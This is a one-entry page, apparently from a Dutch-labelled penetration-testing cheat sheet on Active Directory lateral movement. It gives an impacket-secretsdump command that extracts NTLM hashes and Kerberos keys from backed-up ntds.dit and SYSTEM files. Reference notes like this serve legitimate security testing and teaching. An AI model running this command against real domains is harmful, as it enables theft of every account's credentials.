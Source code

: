 # 24. AD Lateral Movement — Entry 56

## Categorie

Shadow copies

## Commando

impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

## Omschrijving

```
Using impacket secretsdump to obtain NTLM hashes and kerberos keys.
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

